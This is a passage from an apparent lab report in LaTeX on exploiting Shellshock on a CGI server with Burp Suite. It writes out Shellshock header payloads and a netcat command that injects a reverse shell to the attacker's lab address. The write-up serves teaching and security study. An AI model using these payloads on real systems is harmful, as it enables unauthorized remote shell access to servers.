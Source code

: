 This confirms the assumption that CGI is utilized. Time to shellshock the server. Burp Suite is used to test customized requests. A new header is added to the requests with the contents: \\

\begin{lstlisting}[breaklines]
() { :;}; this should give internal server error
\end{lstlisting}

 The response is indeed 500, and we know the server is vulnerable. Time to make the server do something. Then we try: 
 \begin{lstlisting}[breaklines]
() { :;};echo \"Content-type: text/plain\"; echo; /bin/bash -c 'echo vulnerable'
\end{lstlisting}

The response can be seen on figure \ref{fig:echo-vulnerable}.

 \begin{figure} [ht]
    \centering
    \includegraphics[width=\columnwidth]{../pictures/echo-vulnerable.png}
    \caption{Server returning vulnerable}
    \label{fig:echo-vulnerable}
\end{figure}

It's cumbersome to send a http request every time. Instead lets establish a reverse shell. That enables the attacker to write shell code in his terminal as if he was on the server. This can be done with the input:

\begin{lstlisting}[breaklines]
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nShellshock: () { :;}; /usr/bin/nc 10.0.2.6 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.0.2.9 80
\end{lstlisting}


This uses netcat to bind the attackers shell to 10.0.2.9/cgi-bin/status. Furthermore the server will bind its shell to 10.0.2.6:443, which is the attacker. The attacker first needs to bind the port, and then he is ready. The reverse shell can be seen on figure \ref{fig:reverse-shell}.

